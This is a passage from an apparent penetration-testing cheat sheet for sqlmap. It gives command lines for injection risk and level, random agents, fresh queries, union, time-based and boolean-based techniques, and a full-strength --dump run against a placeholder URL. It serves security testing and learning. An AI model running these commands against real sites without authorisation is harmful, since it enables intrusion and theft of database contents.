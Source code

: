 ### Risk/Level

We can specify the injection risk and level.  

- **risk**

    Risk of tests to perform. Default is **1**. Max is **3**.

- **level**

    Level of tests to perform. Default is **1**. Max is **5**.

```sh
sqlmap -u "https://example.com/?q=test" --dump --dbms mysql --risk 3 --level 5
```

### Random Agent

```sh
sqlmap -u "https://example.com/?q=test" --random-agent
```

### Fresh Queries

If the database is modified, we can refresh the states by adding **`--fresh-queries`**.

```sh
# --fresh-queries: new data in tables
sqlmap -u "https://example.com/?q=test" --fresh-queries
```

### Injection Techniques

We can specify the injection technique to test by adding **`--technique`**.

```sh
# Union attack (U)
sqlmap -u "https://example.com/?q=test" --technique U
# --delay 2: Time delay
sqlmap -u "https://example.com/?q=test" --technique U --delay 2

# Time-based Blind SQLi (T)
sqlmap -u "https://example.com/?q=test" --technique T

# Boolean-based blind injection (B)
sqlmap -u "https://example.com/?q=test" --technique B
```

### Sleep

We can sleep for each injection.

```sh
# --time-sec 2: Sleep 2 seconds.
sqlmap -u "https://example.com/?q=test" --time-sec 2
```

### Ignore HTTP response code
